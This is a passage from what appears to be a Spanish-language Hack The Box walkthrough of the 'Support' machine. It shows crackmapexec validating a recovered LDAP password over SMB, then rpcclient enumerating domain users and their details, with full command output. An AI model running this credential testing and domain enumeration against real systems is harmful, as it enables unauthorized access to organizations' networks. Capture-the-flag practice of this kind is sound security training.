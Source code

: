 Tenemos la contraseña, ahora debemos saber a qué usuario le pertenece.

Lo bueno, es que ya sabemos que este binario funciona con el **servicio LDAP**, por lo que podríamos probarlo con **crackmapexec**:
```bash
crackmapexec smb 10.10.11.174 -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
SMB         10.10.11.174    445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.174    445    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

Excelente, vamos a entrar al **servicio LDAP** y a enumerarlo.

<h2 id="ldap">Enumeración de Servicio LDAP</h2>

Entremos al **servicio LDAP** y veamos qué usuarios encontramos con el comando `enumdomusers`:
```batch
rpcclient -U 'ldap%nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' 10.10.11.174
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[ldap] rid:[0x450]
user:[support] rid:[0x451]
user:[smith.rosario] rid:[0x452]
user:[hernandez.stanley] rid:[0x453]
user:[wilson.shelby] rid:[0x454]
user:[anderson.damian] rid:[0x455]
user:[thomas.raphael] rid:[0x456]
user:[levine.leopoldo] rid:[0x457]
user:[raven.clifton] rid:[0x458]
user:[bardot.mary] rid:[0x459]
user:[cromwell.gerard] rid:[0x45a]
user:[monroe.david] rid:[0x45b]
user:[west.laura] rid:[0x45c]
user:[langley.lucy] rid:[0x45d]
user:[daughtler.mabel] rid:[0x45e]
user:[stoll.rachelle] rid:[0x45f]
user:[ford.victoria] rid:[0x460]
```
Tenemos varios usuarios que podemos ir anotando, pero sigamos enumerando.

Usemos el comando `querydispinfo` para ver si obtenemos información útil de los usuarios encontrados:
```batch
rpcclient $> querydispinfo
index: 0xeda RID: 0x1f4 acb: 0x00000010 Account: Administrator  Name: (null)    Desc: Built-in account for administering the computer/domain
index: 0xf70 RID: 0x455 acb: 0x00000210 Account: anderson.damian        Name: (null)    Desc: (null)
index: 0xfbb RID: 0x459 acb: 0x00000210 Account: bardot.mary    Name: (null)    Desc: (null)
index: 0xfbc RID: 0x45a acb: 0x00000210 Account: cromwell.gerard        Name: (null)    Desc: (null)
index: 0xfc0 RID: 0x45e acb: 0x00000210 Account: daughtler.mabel        Name: (null)    Desc: (null)
index: 0xfc2 RID: 0x460 acb: 0x00000210 Account: ford.victoria  Name: (null)    Desc: (null)
index: 0xedb RID: 0x1f5 acb: 0x00000214 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0xf6e RID: 0x453 acb: 0x00000210 Account: hernandez.stanley      Name: (null)    Desc: (null)
index: 0xf10 RID: 0x1f6 acb: 0x00000011 Account: krbtgt Name: (null)    Desc: Key Distribution Center Service Account
index: 0xfbf RID: 0x45d acb: 0x00000210 Account: langley.lucy   Name: (null)    Desc: (null)
index: 0xf6b RID: 0x450 acb: 0x00000210 Account: ldap   Name: (null)    Desc: (null)
index: 0xfb9 RID: 0x457 acb: 0x00000210 Account: levine.leopoldo        Name: (null)    Desc: (null)
```
